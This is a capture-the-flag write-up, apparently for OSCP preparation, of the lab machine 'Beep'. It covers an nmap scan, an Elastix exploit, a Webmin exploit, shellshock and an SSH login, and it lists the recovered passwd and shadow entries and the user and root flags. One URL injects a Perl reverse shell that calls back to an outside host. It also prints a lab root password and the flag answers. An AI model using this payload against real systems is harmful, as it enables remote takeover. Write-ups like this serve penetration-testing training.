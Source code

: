 # BEEP / OSCP PREP

![](../.gitbook/assets/6e9401a5b2a94f22bdc2b0d3fe4efdec.png)

## NMAP SCAN

```text
PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?      syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       syn-ack Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.100.99/
110/tcp   open  pop3?      syn-ack
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            939/udp   status
|_  100024  1            942/tcp   status
143/tcp   open  imap?      syn-ack
443/tcp   open  ssl/https? syn-ack
942/tcp   open  status     syn-ack 1 (RPC #100024)
993/tcp   open  imaps?     syn-ack
995/tcp   open  pop3s?     syn-ack
3306/tcp  open  mysql      syn-ack MySQL (Too many connections)
4190/tcp  open  sieve?     syn-ack
4445/tcp  open  upnotifyp? syn-ack
4559/tcp  open  hylafax?   syn-ack
5038/tcp  open  asterisk   syn-ack Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
```

## SSL 443 ELASTIX

![](../.gitbook/assets/b361a98796194e08b9c87f85d0ba7c98.png)

![](../.gitbook/assets/fd3ec7140e184b829915cad5e7cc8abc.png)

![](../.gitbook/assets/0266c3fce5b94c0d9373cf8a33f3fdf4.png)

### LFI

* [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)

#### POC 

![](../.gitbook/assets/973bb647e7a54d04952ae579d10a531b.png)

### EXPLOIT

```text
https://10.129.100.99/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.104%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

![](../.gitbook/assets/347cef26f51d466cb7a1f680c84c77da.png)

## SSL 10000 WEBMIN 1.570

![](../.gitbook/assets/4abaa9461bcb4259a2d0e89a5d7818d4.png)

![](../.gitbook/assets/eb7eb282f447494bb2214a24fdf69013.png)

### EXPLOIT WITH METASPLOIT

![](../.gitbook/assets/e30da300500d41ab9fcdfe73f4ca5f81.png)

## LOGIN SSH

![](../.gitbook/assets/4581299081d140818a7538f27f94b293.png)

```text
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.129.100.99

PASS= jEhdIekWmdjE
```

## SHELLSHOCK

![](../.gitbook/assets/38cbf0f442d6453b856d9769ce5e6ec1.png)

![](../.gitbook/assets/4247a9631a9f43158ad6c338521e196f.png)

## USERS WITH BASH

```text
root:x:0:0:root:/root:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

## SHADOW

```text
root:$1$yYjor88z$SOARx58.XEaj14nlX4iRh1:17263:0:99999:7:::jEhdIekWmdjE
fanis:$1$pKpD8eOD$haUM/7L7wmQBUWAVzMy3q.:17263:0:99999:7:::
```

## FLAGS

### USER

```text
27843704c79909c692d6dff27be861c0
```

### ROOT

```text
60a21f04ca3b8da8b29814fafe516924
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

